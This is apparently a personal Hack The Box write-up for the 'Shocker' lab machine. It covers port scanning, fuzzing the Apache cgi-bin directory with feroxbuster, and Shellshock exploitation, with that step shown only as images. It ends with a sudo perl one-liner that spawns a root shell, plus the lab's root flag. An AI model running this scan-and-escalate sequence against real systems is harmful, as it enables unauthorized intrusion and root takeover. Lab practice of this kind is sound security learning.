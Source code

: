 After a port scan, there are only 2 ports exposed  

- 2222: ssh
- 80: apache webserver

## Enumeration

### What does it do?

I've only been able to see the homepage `index.html` which appears to be a static page with a picture of a bug about to squash itself.

There is an ETag: `"89-559ccac257884"` but it doesn't seem to decode to anything useful.



### What language is it written in?

403 errors on aspx, asp, jsp, php.

### What server software is the application running on?

Apache httpd 2.4.18 ((Ubuntu))



## Walkthrough
I peaked at the walkthrough because I was lost.
No shocker - this machine was built to practice shellshock
On apache, the `cgi-bin` folder contains scripts. The scripts are accessed via web, run server side, then returned with an HTTP reply. Shellshock provides input that hijacks the server-side shell run.

I also saw in the walkthrough that the target script is `/cgi-bin/user.sh`. But I want to prove this with a scan.

## fuzzing for shellshock
Found a shellshock endpoint by running
```bash
feroxbuster -u http://10.10.10.56:80/cgi-bin/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "sh" -v -k -n -o /home/nate/hackthebox/shocker/results/scans/tcp80/tcp_80_http_feroxbuster_cgi-bin.txt
```
![[Pasted image 20220106200355.png]]


Now to exploit it.
![[Pasted image 20220106200636.png]]

![[Pasted image 20220106202024.png]]

![[Pasted image 20220106204959.png]]

I was able to get user.txt but not enough privs for root.txt

### Linpeas findings

> Sudo version 1.8.16

> ╔══════════╣ Executing Linux Exploit Suggester 2
> ╚ https://github.com/jondonas/linux-exploit-suggester-2  
>   
> [1] af_packet  
> 	CVE-2016-8655  
> 	Source: http://www.exploit-db.com/exploits/40871  
> [2] exploit_x  
> 	CVE-2018-14665  
> 	Source: http://www.exploit-db.com/exploits/45697  
> [3] get_rekt  
> 	CVE-2017-16695  
> 	Source: http://www.exploit-db.com/exploits/45010  

> ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
> ╚https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
> Matching Defaults entries for shelly on Shocker:  
> env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
> 
> User shelly may run the following commands on Shocker:  
> (root) NOPASSWD: /usr/bin/perl 

Might be able to use the following from GTFO bins to get root.
```
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20220106210114.png]]

## Root Flag
`52c2715605d70c7619030560dc1ca467`